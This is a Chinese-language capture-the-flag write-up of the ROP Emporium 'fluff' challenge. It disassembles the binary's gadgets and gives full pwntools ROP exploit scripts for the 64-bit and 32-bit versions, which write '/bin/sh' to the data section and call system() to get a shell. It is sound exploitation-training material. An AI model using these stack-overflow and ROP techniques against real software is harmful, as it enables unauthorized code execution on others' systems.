


via：https://ropemporium.com/challenge/fluff.html

# fluff

The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we'll succeed.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/fluff.zip) [32bit](https://ropemporium.com/binary/fluff32.zip)

## Working backwards

Once we've employed our usual drills of checking protections and searching for interesting symbols and strings we can think about what we're trying to acheive and plan our chain. A solid approach is to work backwards; we'll need a mov [reg], reg or something equivalent to make the actual write so we can start there.

### Do it!

There's not much more to this challenge, we just have to think about ways to move data into the registers we want to control. Sometimes we'll need to take an indirect approach, especially in smaller binaries with fewer available gadgets like this one. Once you've got a working write primitive go ahead and craft your solution. If you don't feel like doing the hard work note that the 64 bit version of this challenge can also be pwned using the same single link chain that works on write4 🤦‍♂️

### x64


可以看到漏洞点这里

填充长度：`0x20 + 0x8`


程序开了 `NX` 也就是栈不可执行，不能像前面一样直接使用 `shellcode` 然后`call rax`

`ROPgadget` 瞎逛一下


没有拿 `shell` 和拿 f`lag` 的字符串

现在有两条路可以走

- ret2libc，使用 puts 泄露出 某个已经被 call 过的函数的 got 表上的地址，从而得到 libc 的基地址，然后用这个基地址加上 sh 在 libc 里的偏移得到 sh 的地址，然后调用 system 拿到 shell
- 找 gadget 把 sh 写到内存里去，然后调用 system 拿到 shell

官方的意思是让我们用第二种方法

找一下有没有适合的 gadget

主要目的是写内存

我很奇怪，回到 ghidra 看看是不是有后门


？？？？？？我昨晚 4 点怕是瞎了，有一个 `questionableGadgets()`

```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined questionableGadgets()
         undefined    AL:1      <RETURN>
                    questionableGadgets               XREF[1]: Entry Point(*)  
   00400820 41 5f      POP     R15
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   0040082d 41         ??      41h    A
   0040082e 5e         ??      5Eh    ^
   0040082f 4d         ??      4Dh    M
   00400830 31         ??      31h    1
   00400831 e3         ??      E3h
   00400832 41         ??      41h    A
   00400833 5c         ??      5Ch    \
   00400834 41         ??      41h    A
   00400835 bd         ??      BDh
   00400836 60         ??      60h    `
   00400837 40         ??      40h    @
   00400838 60         ??      60h    `
   00400839 00         ??      00h
   0040083a c3         ??      C3h
   0040083b bf         ??      BFh
   0040083c 50         ??      50h    P
   0040083d 10         ??      10h
   0040083e 60         ??      60h    `
   0040083f 00         ??      00h
   00400840 4d         ??      4Dh    M
   00400841 87         ??      87h
   00400842 d3         ??      D3h
   00400843 41         ??      41h    A
   00400844 5f         ??      5Fh    _
   00400845 41         ??      41h    A
   00400846 bb         ??      BBh
   00400847 50         ??      50h    P
   00400848 20         ??      20h     
   00400849 60         ??      60h    `
   0040084a 00         ??      00h
   0040084b c3         ??      C3h
   0040084c 41         ??      41h    A
   0040084d 5f         ??      5Fh    _
   0040084e 4d         ??      4Dh    M
   0040084f 89         ??      89h
   00400850 1a         ??      1Ah
   00400851 41         ??      41h    A
   00400852 5d         ??      5Dh    ]
   00400853 41         ??      41h    A
   00400854 5c         ??      5Ch    \
   00400855 45         ??      45h    E
   00400856 30         ??      30h    0
   00400857 22         ??      22h    "
   00400858 c3         ??      C3h
   00400859 0f         ??      0Fh
   0040085a 1f         ??      1Fh
   0040085b 80         ??      80h
   0040085c 00         ??      00h
   0040085d 00         ??      00h
   0040085e 00         ??      00h
   0040085f 00         ??      00h
```

后面这些反编译器遇到 ret 后直接不反编译了，手动反编译看看

反正 ghidra 下，选中，按 d 就可以

是这样的：


其实这个算半个后门

```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined questionableGadgets()
         undefined    AL:1      <RETURN>
                    questionableGadgets               XREF[1]: Entry Point(*)  
   00400820 41 5f      POP     R15
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   0040082d 41 5e      POP     R14
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET
   0040083b bf 50      MOV     EDI,data_start
            10 60 00
   00400840 4d 87 d3   XCHG    R11,R10
   00400843 41 5f      POP     R15
   00400845 41 bb      MOV     R11D,_ITM_registerTMCloneTable    = ??
            50 20 
            60 00
   0040084b c3         RET
   0040084c 41 5f      POP     R15
   0040084e 4d 89 1a   MOV     qword ptr [R10],R11
   00400851 41 5d      POP     R13
   00400853 41 5c      POP     R12
   00400855 45 30 22   XOR     byte ptr [R10],R12B
   00400858 c3         RET
   00400859 0f 1f      NOP     dword ptr [RAX]
            80 00 
            00 00 00
```

抽取需要的 gadget：

```asm
   ;这里可以给 R12 赋值，这个最终会进入 R10（0x00400832 -> 0x0040082f -> 0x00400840）
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET
   
   ; xor 置 0 R11 ，因为如果 R11 不是 0 后面会影响到（0x0040082f）
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET 
   
   ; XCHG指令，双操作数指令，用于交换 src 和 dest 操作数的内容。其中， src 和 dest 可以是两个通用寄存器，也可以是一个寄存器和一个 memory 位置。
   ; 其实这一步是为 0x0040084e 写内存做铺垫，当 R11 存的是一个地址时，在 0x0040084e 就是往这个地址写
   00400840 4d 87 d3   XCHG    R11,R10
   00400843 41 5f      POP     R15
   00400845 41 bb      MOV     R11D,_ITM_registerTMCloneTable    = ??
            50 20 
            60 00
   0040084b c3         RET
   
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET 
   
   ; 写内存
   0040084e 4d 89 1a   MOV     qword ptr [R10],R11
   00400851 41 5d      POP     R13
   00400853 41 5c      POP     R12
   00400855 45 30 22   XOR     byte ptr [R10],R12B
   00400858 c3         RET
```

我们需要把 `/bin/sh` 字符串 写进 data 段，因为在 `0x00400827`  把 data 段的地址放进了 edi 然后一直到我们的 rop 链结束都没有改变过，这样，只要 `/bin/sh` 的地址一直存在 edi 里面，在调用 system 的时候就不用 pop rdi 了。

有点乱，仔细看吧，写 payload ：

```python
#!/bin/env python2
#! _*_ coding=utf-8 _*_

from pwn import *

fluff = ELF("./fluff")
p = process("./fluff")


bin_sh = "/bin/sh\x00"
system_plt = fluff.plt["system"]
pop_r12_ret = 0x400832
pop_r14_ret = 0x400822
xor_r11_r12_pop_r12_ret = 0x0040082f 
pop_r15_ret = 0x00400840
pop_r13_pop_r12_ret = 0x0040084e
data_section = 0x601050

exp = "A" * 0x28

exp += p64(pop_r12_ret)
exp += p64(data_section)
'''
r12 = data_section
r13 = 0x604060
'''

exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11
r14 = "AAAAAAAA"
edi = data_start (data_section == data_section)
'''


exp += p64(xor_r11_r12_pop_r12_ret)
exp += bin_sh
'''
r11 = r11 ^ r12 (r11 == 0, r12 == data_section, 所以 r11 = data_section)
r12 = "/bin/sh\x00"
r13 = 0x604060
'''


exp += p64(pop_r15_ret)
exp += "A" * 8
'''
xchg r11,r10 (交换 r11 和 r10 的值)
r15 = "AAAAAAAA"
r11 = _ITM_registerTMCloneTable
'''


exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11 (r11 = 0)
r14 = "AAAAAAAA"
'''


exp += p64(xor_r11_r12_pop_r12_ret)
exp += "A" * 8
'''
r11 = r11 ^ r12 (r11 = r12)
r12 = "AAAAAAAA"
'''


exp += p64(pop_r13_pop_r12_ret)
exp += "A" * 8
exp += "\x00" * 8
'''
*(r10) = r11 (往 r10 存的地址上写入 r11, 其实 r11 就是 /bin/sh\x00, r10 存的是 data_section)
相当于往 data_section 写入 /bin/sh\x00
r13 = "AAAAAAAA"
r12 = "\x00\x00\x00\x00\x00\x00\x00\x00"
*(r10) = *(r10) ^ r12 (那个 r12B 就是取 r12 的一个 Bytes，为了防止这个破坏 *(r10) ,前一步把 r12 置 \x00, 任何字符异或 \x00  都得到它本身)
'''


exp += p64(system_plt)
'''
call system
参数就是 data_section
上面已经把 data_section 复制给 edi
'''

p.sendline(exp)
p.interactive()
```

完整的汇编是这样的：

```asm
   0x400804 <pwnme+79>                  nop    
   0x400805 <pwnme+80>                  leave  
   0x400806 <pwnme+81>                  ret    
    ↓
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400840 <questionableGadgets+32>    xchg   r11, r10
   0x400843 <questionableGadgets+35>    pop    r15
   0x400845 <questionableGadgets+37>    mov    r11d, 0x602050
   0x40084b <questionableGadgets+43>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x40084e <questionableGadgets+46>    mov    qword ptr [r10], r11
   0x400851 <questionableGadgets+49>    pop    r13
   0x400853 <questionableGadgets+51>    pop    r12
   0x400855 <questionableGadgets+53>    xor    byte ptr [r10], r12b <0x601050>
   0x400858 <questionableGadgets+56>    ret    
    ↓
   0x4005e0 <system@plt>                jmp    qword ptr [rip + 0x200a3a] <0x601020>
```


pwn！

### x86

不多说废话，还是在 `questionableGadgets()` 函数

```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined questionableGadgets()
         undefined    AL:1      <RETURN>
                    questionableGadgets               XREF[1]: Entry Point(*)  
   08048670 5f         POP     EDI
   08048671 31 d2      XOR     EDX,EDX
   08048673 5e         POP     ESI
   08048674 bd be      MOV     EBP,0xcafebabe
            ba fe ca
   08048679 c3         RET
   0804867a 5e         POP     ESI
   0804867b 31 da      XOR     EDX,EBX
   0804867d 5d         POP     EBP
   0804867e bf be      MOV     EDI,0xdeadbabe
            ba ad de
   08048683 c3         RET
   08048684 bf ef      MOV     EDI,0xdeadbeef
            be ad de
   08048689 87 ca      XCHG    EDX,ECX
   0804868b 5d         POP     EBP
   0804868c ba d0      MOV     EDX,0xdefaced0
            ce fa de
   08048691 c3         RET
   08048692 5f         POP     EDI
   08048693 89 11      MOV     dword ptr [ECX],EDX
   08048695 5d         POP     EBP
   08048696 5b         POP     EBX
   08048697 30 19      XOR     byte ptr [ECX],BL
   08048699 c3         RET
   0804869a 66 90      NOP
   0804869c 66 90      NOP
   0804869e 66 90      NOP
```


我们的目的是写内存，直接找到能写内存的 `gadget`

```asm
   08048692 5f         POP     EDI
   08048693 89 11      MOV     dword ptr [ECX],EDX
   08048695 5d         POP     EBP
   08048696 5b         POP     EBX
   08048697 30 19      XOR     byte ptr [ECX],BL
   08048699 c3         RET
```

写入 `ecx` 存的地址

找，怎么给 `ecx` 赋值：

```asm
   08048689 87 ca      XCHG    EDX,ECX
   0804868b 5d         POP     EBP
   0804868c ba d0      MOV     EDX,0xdefaced0
            ce fa de
   08048691 c3         RET
```

通过 `edx`

找，怎么给 `edx` 赋值：

```asm
   0804867a 5e         POP     ESI
   0804867b 31 da      XOR     EDX,EBX
   0804867d 5d         POP     EBP
   0804867e bf be      MOV     EDI,0xdeadbabe
            ba ad de
   08048683 c3         RET
```

这个异或会把结果放进 `edx`，要么能找到 `pop edx` 和 `xor ebx,ebx` 要么 `pop ebx` 和 `xor edx,edx`

有：

```asm
   08048670 5f         POP     EDI
   08048671 31 d2      XOR     EDX,EDX
   08048673 5e         POP     ESI
   08048674 bd be      MOV     EBP,0xcafebabe
            ba fe ca
   08048679 c3         RET
```

ROPgadget 找一下有没有 `pop ebx; ret`


有

```asm
0x080483e1 : pop ebx ; ret
```

好了，现在能设置写入的内存地址了

------

找一下，写字符串怎么放进去

一样，逆向找：

```asm
   08048693 89 11      MOV     dword ptr [ECX],EDX
```

需要设置 `edx`

没有直接 `pop edx`，只能间接赋值

```asm
   0804867b 31 da      XOR     EDX,EBX
```

这个异或会把结果放进 `edx`，要么能找到 `pop edx` 和 `xor ebx,ebx` 要么 `pop ebx` 和 `xor edx,edx`

发现了吗，跟设置 ecx 的某些步骤重叠了

有：

```asm
   08048670 5f         POP     EDI
   08048671 31 d2      XOR     EDX,EDX
   08048673 5e         POP     ESI
   08048674 bd be      MOV     EBP,0xcafebabe
            ba fe ca
   08048679 c3         RET
```

ROPgadget 找一下有没有 `pop ebx; ret`


漏洞点


填充长度：`0x28 + 0x4`

好了，可以写 payload 了：

逆序看找 gadget 的步骤，只能先设置 ecx 的值，因为先设置 edx 的话我们没办法清空设置 edx 时 ecx 设置的值

设置 ecx，ecx 是要设置一个可写可读的内存的起始地址


data 段可以，地址：`0x0804a028`

```python
from pwn import *

context.terminal = ["tmux", "split-window", "-h"]
p = process("./fluff32")
data_section = 0x0804a028
pop_ebx_ret = 0x080483e1
pop_edi_xor_edx_edx_pop_esi_ret = 0x08048670
pop_esi_xor_edx_ebx_pop_ebp_ret = 0x0804867a
xchg_edx_ecx_pop_ebp_ret = 0x08048689
pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret = 0x08048692

exp = "A" * 0x2c

exp += p32(pop_ebx_ret)
exp += p32(data_section)

exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"

exp += p32(pop_esi_xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"
exp += "AAAA"

exp += p32(xchg_edx_ecx_pop_ebp_ret)
exp += "AAAA"

gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```

`gdb attach` 上去看一下 `ecx` 的置有没有成功设置


可以看到，构造的 ROP 链成功设置了 ecx 的值为 data_section

现在 开始写 设置 ebx 的那部分 payload

现在的 edx 被污染了，需要清空，调用 `xor edx,edx` 就能清空 `edx`（自己和自己异或肯定等于 0 啊）

```asm
   08048671 31 d2      XOR     EDX,EDX
   08048673 5e         POP     ESI
   08048674 bd be      MOV     EBP,0xcafebabe
            ba fe ca
   08048679 c3         RET
```

这个可以，ok，写

```python
from pwn import *

context.terminal = ["tmux", "split-window", "-h"]
p = process("./fluff32")
fluff32 = ELF("./fluff32")

sh = "sh\x00\x00"
system_plt = fluff32.plt["system"]
data_section = 0x0804a028

pop_ebx_ret = 0x080483e1
pop_edi_xor_edx_edx_pop_esi_ret = 0x08048670
pop_esi_xor_edx_ebx_pop_ebp_ret = 0x0804867a
xchg_edx_ecx_pop_ebp_ret = 0x08048689
pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret = 0x08048692

xor_edx_ebx_pop_ebp_ret = 0x0804867b


exp = "A" * 0x2c

exp += p32(pop_ebx_ret)
exp += p32(data_section)

exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"

exp += p32(pop_esi_xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"
exp += "AAAA"

exp += p32(xchg_edx_ecx_pop_ebp_ret)
exp += "AAAA"

exp += p32(pop_ebx_ret)
exp += (sh)

exp += p32(pop_edi_xor_edx_edx_pop_esi_ret)
exp += "AAAA"
exp += "AAAA"

exp += p32(xor_edx_ebx_pop_ebp_ret)
exp += "AAAA"

exp += p32(pop_edi_write_ecx_men_pop_ebp_pop_ebx_xor_ecx_bl_ret)
exp += "AAAA"
exp += "AAAA"
exp += "\x00\x00\x00\x00"

exp += p32(system_plt)
exp += p32(0xdeadbeef)
exp += p32(data_section)


gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```

ROP 汇编：

```asm
   0x804864b <pwnme+85>                  ret    
    ↓
   0x80483e1 <_init+33>                  pop    ebx
   0x80483e2 <_init+34>                  ret    
    ↓
   0x8048670 <questionableGadgets>       pop    edi
   0x8048671 <questionableGadgets+1>     xor    edx, edx
   0x8048673 <questionableGadgets+3>     pop    esi
   0x8048674 <questionableGadgets+4>     mov    ebp, 0xcafebabe
   0x8048679 <questionableGadgets+9>     ret    
     ↓
   0x804867a <questionableGadgets+10>    pop    esi
   0x804867b <questionableGadgets+11>    xor    edx, ebx
   0x804867d <questionableGadgets+13>    pop    ebp
   0x804867e <questionableGadgets+14>    mov    edi, 0xdeadbabe
   0x8048683 <questionableGadgets+19>    ret    
    ↓
   0x8048689 <questionableGadgets+25>    xchg   edx, ecx
   0x804868b <questionableGadgets+27>    pop    ebp
   0x804868c <questionableGadgets+28>    mov    edx, 0xdefaced0
   0x8048691 <questionableGadgets+33>    ret    
    ↓
   0x80483e1 <_init+33>                  pop    ebx
   0x80483e2 <_init+34>                  ret    
    ↓
   0x8048670 <questionableGadgets>       pop    edi
   0x8048671 <questionableGadgets+1>     xor    edx, edx
   0x8048673 <questionableGadgets+3>     pop    esi
   0x8048674 <questionableGadgets+4>     mov    ebp, 0xcafebabe
   0x8048679 <questionableGadgets+9>     ret    
    ↓
   0x804867b <questionableGadgets+11>    xor    edx, ebx
   0x804867d <questionableGadgets+13>    pop    ebp
   0x804867e <questionableGadgets+14>    mov    edi, 0xdeadbabe
   0x8048683 <questionableGadgets+19>    ret    
    ↓
   0x8048692 <questionableGadgets+34>    pop    edi
   0x8048693 <questionableGadgets+35>    mov    dword ptr [ecx], edx
   0x8048693 <questionableGadgets+35>    mov    dword ptr [ecx], edx
   0x8048695 <questionableGadgets+37>    pop    ebp
   0x8048696 <questionableGadgets+38>    pop    ebx
   0x8048697 <questionableGadgets+39>    xor    byte ptr [ecx], bl
   0x8048699 <questionableGadgets+41>    ret    
    ↓
   0x8048430 <system@plt>                jmp    dword ptr [system@got.plt] <0x804a018>
```

成功设置 `ecx` 和 `edx` 的值





pwn!